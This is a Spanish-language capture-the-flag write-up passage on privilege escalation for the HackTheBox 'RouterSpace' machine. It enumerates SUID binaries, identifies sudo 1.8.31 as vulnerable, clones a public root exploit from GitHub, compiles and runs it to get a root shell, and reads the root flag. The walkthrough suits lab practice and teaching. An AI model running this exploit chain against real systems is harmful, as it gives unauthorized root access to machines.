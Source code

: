 # Escalada

Dentro de los binario SUID está el sudo

```null
paul@routerspace:/$ find \-perm -4000 2>/dev/null
./usr/bin/su
./usr/bin/passwd
./usr/bin/at
./usr/bin/chsh
./usr/bin/chfn
./usr/bin/mount
./usr/bin/newgrp
./usr/bin/umount
./usr/bin/sudo
./usr/bin/gpasswd
./usr/bin/fusermount
./usr/lib/dbus-1.0/dbus-daemon-launch-helper
./usr/lib/eject/dmcrypt-get-device
./usr/lib/policykit-1/polkit-agent-helper-1
./usr/lib/openssh/ssh-keysign
```

Su versión es vulnerable

```null
paul@routerspace:/$ sudo --version
Sudo version 1.8.31
Sudoers policy plugin version 1.8.31
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.31
```

Me descargo el exploit de [Github](https://github.com/mohinparamasivam/Sudo-1.8.31-Root-Exploit)

```null
git clone https://github.com/mohinparamasivam/Sudo-1.8.31-Root-Exploit
```

Comparto los archivos por scp

```null
scp * paul@routerspace.htb:/tmp/prives
```

Compilo, ejecuto y puedo visualizar la segunda flag

```null
paul@routerspace:/tmp/prives$ ls
exploit.c  Makefile  README.md  shellcode.c
paul@routerspace:/tmp/prives$ make
mkdir libnss_x
cc -O3 -shared -nostdlib -o libnss_x/x.so.2 shellcode.c
cc -O3 -o exploit exploit.c
paul@routerspace:/tmp/prives$ ./exploit 
# whoami
root
# cat /root/root.txt
91f24669a1d2f94fb5a827a7b542ae46
```